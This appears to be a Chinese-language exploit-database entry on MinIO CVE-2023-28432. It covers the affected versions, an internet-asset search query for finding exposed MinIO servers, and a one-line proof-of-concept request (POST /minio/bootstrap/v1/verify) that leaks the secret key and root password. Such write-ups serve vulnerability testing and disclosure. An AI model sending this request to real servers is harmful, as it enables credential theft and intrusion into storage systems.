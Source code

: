 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

<a-checkbox checked>MinIO <= RELEASE.2023-03-20T20-16-18Z</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="minio"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1679976896036-1e230da8-12ab-4e6a-9681-d35b78c573a5.png)

验证POC (默认端口:9000)

```javascript
POST /minio/bootstrap/v1/verify
```

![img](../../../.vuepress/public/img/1679976986271-1b32d86d-2c4b-47cb-9a33-8c8e91fce7f6.png)